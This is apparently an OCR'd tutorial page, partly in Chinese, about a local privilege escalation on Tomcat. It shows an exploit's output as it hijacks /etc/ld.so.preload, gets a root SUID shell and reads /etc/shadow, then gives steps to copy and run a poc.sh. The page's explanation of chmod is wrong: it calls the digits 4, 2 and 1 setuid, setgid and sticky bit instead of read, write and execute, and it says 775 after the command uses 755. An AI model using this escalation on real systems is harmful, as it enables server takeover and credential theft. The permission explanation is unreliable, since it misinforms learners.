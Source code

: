 
    [+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: 
    -rw-r--r-- 1 tomcat7 root 19 Sep 30 22:28 /etc/ld.so.preload

    [+] Adding /tmp/privesclib.so shared lib to /etc/ld.so.preload

    [+] The /etc/ld.so.preload file now contains: 
    /tmp/privesclib.so

    [+] Escalating privileges via the /usr/bin/sudo SUID binary to get root!

    [+] Rootshell got assigned root SUID perms at: 
    -rwsrwxrwx 1 root root 1037464 Sep 30 22:27 /tmp/tomcatrootsh

    Please tell me you're seeing this too ;)


    [+] Executing the rootshell /tmp/tomcatrootsh now! 

    tomcatrootsh-4.3# id
    uid=110(tomcat7) gid=118(tomcat7) euid=0(root) groups=118(tomcat7)
    tomcatrootsh-4.3# whoami
    root
    tomcatrootsh-4.3# head -n3 /etc/shadow
    root:$6$oaf[cut]:16912:0:99999:7:::
    daemon:*:16912:0:99999:7:::
    bin:*:16912:0:99999:7:::
    tomcatrootsh-4.3# exit
    exit

首先我们下载poc文件，然后执行命令`cd /tmp`进入目录,然后编辑文件`vim poc.sh`。将桌面的poc.sh使用Notepad++打开，将文件内容粘贴进去。然后按键盘Esc键，再输入`:wq`，之后按
Enter 键将文件保存。 如果无法写入文件，使用命令

    chmod 755 poc.sh

执行命令后，再次重复上一步即可，chmod的意思是改变文件的权限，775是什么权限呢？第一个数字代表文件所属者的权限，第二个数字代表文件所属者所在组的权限，第三个数字代表其它用户的权限，7=4+2+1

> 4：执行时设置用户ID，用于授权给基于文件属主的进程，而不是给创建此进程的用户。
> 2：执行时设置用户组ID，用于授权给基于文件所在组的进程，而不是基于创建此进程的用户。
> 1：设置粘着位。
